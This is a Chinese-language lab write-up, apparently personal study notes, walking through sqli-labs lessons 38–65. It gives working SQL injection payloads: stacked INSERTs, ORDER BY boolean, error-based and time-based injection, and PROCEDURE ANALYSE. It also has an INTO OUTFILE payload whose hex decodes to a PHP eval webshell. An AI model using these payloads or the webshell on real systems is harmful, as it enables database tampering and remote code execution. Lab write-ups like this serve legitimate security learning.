0x01堆栈查询
堆栈查询解析
堆栈查询，说白了就是在加一个查询语句。但个人认为union 联合注入比较靠谱。
局限性：
- 堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的。 所以延时注入，差错注入都行不通。
- 条件是使用了
mysql_multi_query()//为了验证数据库而使用
less38-39
less38字符型，less39数字型注入
以less38为例
构造payload:1';insert into users values ('39','osowrd','osowrd')--+
成功插入新数据，38 osword osword
notice：id列数值尽量大，考虑表没有对id添加自增属性

less40-41
- less40>>注入类型：id=1’)–+ .错误不回显，
- less41>>注入类型：id=1–+,错误不回显，
less42-45
42~45都是相同的，区别就是过滤的形式不一样。
以less42讲解
源码分析:对登陆账户使用mysql_real_escape_string()过滤。
而登陆密码却无过滤

构造stack injection
admin=adminpasswd=c';insert into users values ('40','less42','less42')#
成功插入

0x02 order by 注入
从mysql帮助文档可知，order by 后可以添加表达式。可以采用报错注入，延时注入


参数注入
less46
借用 order by 后参数注入
- 添加注入语句，
?sort=(select *****)//需要注意的是sort争对单列来排序，所以select 后检索个数为1. - 利用函数，如rand(),随机出其他字段值
rand(trure),rand(false)值不同判断条件语句?sort=rand(ascii(substr(database()1,1,))=115)?sort=rand(ascii(substr(database(),1,1))=114) - 利用
and>>?sort=1 and （加sql语句）


报错注入
?sort=(select count(*) from information_schema.columns group by concat(0x7e,(select user()),0x7e,floor(rand(0)*2)))

延时注入
?sort=(IF(ascii(substr(database(),1,1))=114),1,sleep(5))//故意整错看效果

函数注入判断
rand()>>rand(true) / rand(false)//有表单显示才能判断
搭配:?sort=1 and 盲注操作。
procedure analyse 注入
prodedure analyse在windows下可执行，ubuntu mysql 5.7执行不了，具体原因未可知。
windows环境下?sort procedure analyse(extractvalue(1,concat(0x3a,database())),1)


导入导出文件
?sort=1 into outfile 'F:\\phpstudy\\PHPTutorial\\WWW\\sqlilabs\\Less-46\\1.php'


一句话木马
利用 lines terminated by
payload: ?sort=1 into outfile 'F:\\phpstudy\\PHPTutorial\\WWW\\sqlilabs\\Less-46\\less46.php' lines terminated by 3c3f70687020406576616c28245f504f53545b276d696d61275d293f3e


less47-49(见解)
基于无错误返回进行注入。延时，盲注都行的通就不一一写了
见解：sort=rand()可以判断是否可以添加(select **)和判断整型，
若是字符串只能用and注入，或procedure analyse()
less50-53
PHP中使用了mysql_multi_query()函数，使得能够使用堆栈注入。这里就不演示了
0x03 challenge
less54-65(challenge)
实则就是增加了对查询次数限制
小BUG：页面后退就不会添加查询次数了
爆表名>>列名>>得出字段
yaon9gl5wo

secret_N3BG

RSIG77DiEpN3UnUgnRgVd5wC
往后的就是对less54各种变形就不一一写了。
0x04年终总结
- 通过sqlilabs了解了基本的注入方法
- 掌握了浏览器和tomact、数据库交互过程
- 用python脚本进行sql注入编写能够更准确掌握和理解sql语句
- 基本看了每个less源代码，学习php与数据库交互的形式和逻辑。
……………………………..